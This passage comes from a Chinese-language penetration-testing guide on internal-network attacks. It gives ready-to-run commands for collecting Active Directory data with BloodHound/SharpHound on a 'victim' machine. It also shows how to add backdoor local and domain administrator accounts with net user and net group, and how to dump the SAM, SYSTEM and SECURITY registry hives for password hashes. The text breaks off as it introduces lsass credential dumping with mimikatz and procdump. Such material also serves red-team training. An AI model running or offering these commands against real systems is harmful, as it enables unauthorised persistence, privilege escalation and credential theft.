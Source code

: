 这里直接介绍需要在内网机器中执行的相关命令，至于工具的详细使用，可以参考下面的链接：

[官方wiki freebuf的介绍](https://www.freebuf.com/sectool/179002.html)

此工具的导出相对来说比较暴力（内网噪音比较多），且目前此工具 exe 原版已经被识别并被各种杀软查杀，包括微软win10自带的杀软 Windows Defender 

在目标系统上运行 Bloodhound / Sharphound： 运行 PowerShell，然后导入 Bloodhound.ps1 或者

SharpHound.ps1：

```
Invoke-Bloodhound - CollectionMethod Default
Invoke-Bloodhound - CollectionMethod ACL，ObjectProps，Default-CompressData - RemoveCSV -
NoSaveCache
```

运行可执行文件:

```
SharpHound.exe -c Default，ACL，Session，LoggedOn，Trusts，Group
```



一旦运行完成了 Bloundhound / Sharphound，将会有四个文件（csv文件 或者 json文件）将被保存到受害者机器上。下载这些文件到本地，然后本地自行使用相关程序进行查阅。

#### 9-用户命令相关拓展

```
net user username password /add 添加一个username的用户，密码password
net localgroup administrators username /add 将username用户添加到本地管理员组
net user username password /add /domain 添加一个username的域用户，密码password
net group "domain admins" username /add /domain 将username域用户添加到域管理员组
runas /user:administrator "net localgroup administrators domain.com/uasername /add"
将域用户 username 添加到本地管理员组
```

## 0x01 内网横向移动

横向移动的时候，我们需要使用的工具包括系统自带和一些需要自行上传的程序（这里不讨论免杀的问题，只说用法）。为了更好的降低操作的噪音，我们的操作推荐还是尽可能的多使用powershell脚本。

### 一、当前主机密码提取（需要高权限）

#### 1-注册表导出本地主机所有账户的哈希

导出这些数据后，本地可以使用 cain 程序来查阅这些文件

当然，你也可以使用 Get-PassHashes.ps1（nishang项目中的脚本，[地址](https://github.com/samratashok/nishang/)）导出

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```



#### 2-lsass进程中的凭证导出

这里介绍的两个工具 mimikatz （项目地址）和 procdump （下载地址） 都不是系统自带，需要本地上传，
